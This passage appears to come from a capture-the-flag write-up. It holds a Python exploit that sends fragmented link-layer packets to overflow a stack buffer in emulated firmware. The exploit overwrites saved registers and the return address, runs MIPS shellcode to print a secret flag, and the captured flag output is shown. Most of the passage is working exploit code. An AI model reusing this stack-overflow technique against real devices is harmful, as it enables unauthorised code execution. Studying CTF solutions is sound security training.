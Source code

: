```py
# Recover code execution: sp = 0xa00fece4, pc = 0xbfc08ed8
shellcode += bytes.fromhex("0fa01d3c")  # lui sp,0xa00f
shellcode += bytes.fromhex("e4ecbd37")  # ori sp,sp,0xece4
shellcode += bytes.fromhex("c0bf023c")  # lui v0,0xbfc0
shellcode += bytes.fromhex("d88e4234")  # ori v0,v0,0x8ed8
shellcode += bytes.fromhex("08004000")  # jr v0
shellcode += bytes.fromhex("00000000")  # nop

# Create a node for the flag
handle = AP_create(1, 2, b'NodeName')
write_to_ap(handle, b'@' * 0x80)  # Fill garbage, to be able to read the flag

MAC_set_blksize(0x89)  # set newDataBlockSize=189 (315 fragments)

# Fill a buffer of 1280 = 0x500 bytes with a mirror command
payload = struct.pack('<BH', 0x71, 100) + b'xxxxx' + shellcode
payload += b'P' * (0x500 - len(payload))

# Saved variables on the stack, that are restored
payload += struct.pack(
    '<IIIIIIIIIIII',
    0xff, 0,
    handle,      # s0 = handle
    0,           # s1
    0xa2008000,  # s2 = flag
    0xbfc0981c,  # s3 = "RRL::UL SHARED SECRET[%x%x%x%x)"
    0,           # s4
    0,           # s5
    0,           # s6
    0xbfc017e0,  # s7 = DBG_printf
    0,           # s8
    0xa00fe794 + 8,  # ra, to run payload from the stack
)
frag_size = current_mac_block_size - 3
print("Sending {0}={0:#x} bytes in {1} fragments of {2}={2:#x} bytes".format(
    len(payload), (len(payload) + frag_size - 1) // frag_size, frag_size))
assert len(payload) < 0xf * frag_size

# Send first fragment to tell "hey, this is fragmented"
RLL_send_UL_dedicated_fragment(last_UL_dedicated_sequence, 0, 0, payload[:frag_size])
# Send more fragments from the 3rd one
for idx in range(2, (len(payload) + frag_size - 1)//frag_size):
    RLL_send_UL_dedicated_fragment(last_UL_dedicated_sequence, 0, idx, payload[frag_size*idx:frag_size*(idx+1)])

# Send the 2nd fragment with "is_last" bit set
RLL_send_UL_dedicated_fragment(last_UL_dedicated_sequence, 1, 1, payload[frag_size:frag_size*2])
last_UL_dedicated_sequence += 1

# Reset MAC layer to clean the PDU POOL
MAC_set_blksize(0xbd)
response = RLL_recv_DL_dedicated()

# Read the flag
read_from_ap(handle, 0x80)
```

This displayed the flag, as expected:
```text
[AP] Data @0xef2c9fd1=4012679121: [128] b'flag{echo43208echo:
GP9a-DHrK23lk6OGomguRyu-aLi3RnZODemJu4x2-QZbhWvcRFkW0l5hTszuEyltCMm-zvHEUQN8MZHqYOH7ls0
}\x00\x00\x00...
```
